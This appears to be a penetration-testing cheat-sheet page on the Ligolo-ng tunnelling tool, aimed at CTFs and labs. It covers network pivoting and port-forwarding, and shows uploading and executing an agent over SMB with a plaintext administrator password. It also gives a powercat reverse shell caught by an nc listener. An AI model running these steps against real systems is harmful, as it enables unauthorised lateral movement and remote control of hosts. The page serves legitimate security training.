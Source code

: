 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ligolo-ng

## Pivoting

{% tabs %}
{% tab title="1. Interface Setup" %}
Create and activate a new tunnel interface for `ligolo` :

```bash
# Create the interface
sudo ip tuntap add user kali mode tun ligolo
# Activate the interface
sudo ip link set ligolo up
```

On `Ligolo-ng >= v0.6`, this can be done in a single step:

```bash
ligolo-ng » interface_create --name ligolo
INFO[0006] Creating a new "ligolo" interface...
INFO[0006] Interface created!
ligolo-ng » interface_list
┌───────────────────────────┐
│ Available tuntaps         │
├───┬──────────┬────────────┤
│ # │ TAP NAME │ DST ROUTES │
├───┼──────────┼────────────┤
│ 0 │ ligolo   │            │
└───┴──────────┴────────────┘
```
{% endtab %}

{% tab title="2. Proxy" %}
When the environment has no internet availability, e.g. CTFs, practice labs, etc.:

```bash
./proxy -selfcert
```

When there is internet available on the environment, e.g. on an actual test environment:

> _Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval._

```bash
./proxy -autocert
```
{% endtab %}

{% tab title="3. Agent" %}
From the target machine:

```bash
# When -autocert is used on the proxy
./agent -connect 10.129.204.146:11601
# When -selfcert is used on the proxy
./agent -connect 10.129.204.146:11601 -ignore-cert
```
{% endtab %}

{% tab title="4. Interact" %}
asd

```bash
# List active sessions
ligolo-ng » session
# List interfaces of the target machine
[Agent : pivot@pivot-machine] >> ifconfig
```
{% endtab %}

{% tab title="5. Routes" %}
Add a route to the target network:

```bash
sudo ip route add 172.16.10.0/24 dev ligolo
```

On `Ligolo-ng (>= 0.6)` this can be done internally:

```bash
ligolo-ng » interface_add_route --name ligolo --route 172.16.10.0/24
INFO[3206] Route created.       
```

Finally, start the tunnel:

```bash
[Agent : pivot@pivot-machine] >> tunnel_start
```

Now, we can reach the `172.16.10.0/24` network from our Kali:

```bash
$ sudo nmap 172.16.10.0/24 -T4
```
{% endtab %}
{% endtabs %}

## Port-Forward

{% tabs %}
{% tab title="1. Routing" %}
To access local ports on the connected agent, `ligolo-ng` uses a hardcoded "magic" CIDR: `240.0.0.0/4`:

```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
{% endtab %}

{% tab title="2. Interact" %}
Now, any IP queried in this unused subnet is automatically redirected to the agent's `127.0.0.1`. For instance, the below scan will scan the target's loopback address (`127.0.0.1`):

```bash
$ nmap 240.0.0.1
```
{% endtab %}
{% endtabs %}

## Agent Transfer & Execution

We don't need elevated privileges on the target to use the `ligolo-agent`.

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Reverse Shell

We have a route to the target network, but the target network does not have a route to our attack host. Thus, if we want to catch a reverse shell from a target other than the pivot host:

{% tabs %}
{% tab title="1. Listener Setup" %}
Create a listener on the agent/pivot host (`0.0.0.0:3000`) that will redirect the traffic to our proxy/attack host (`127.0.0.1:10000`).

{% code overflow="wrap" %}
```bash
[Agent : pivot@pivot-machine] >> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:10000 --tcp
INFO[0373] Listener 0 created on remote agent!
```
{% endcode %}

Start listening from our attack host:

```bash
$ nc -lvnp 10000
listening on [any] 10000...
```
{% endtab %}

{% tab title="2. Connect from Target" %}
Connect from the target to the pivot machine (`10.1.2.4`) on the listening port (`30000`):

```powershell
> powercat -c 10.1.2.4 -p 30000 -ep
```

This will connect to the agent's listener and then forwarded to our proxy:

```bash
$ nc -lvnp 10000
listening on [any] 10000...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1]
...
PS C:\Users\User>
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://docs.ligolo.ng/" %}
{% endtab %}

{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
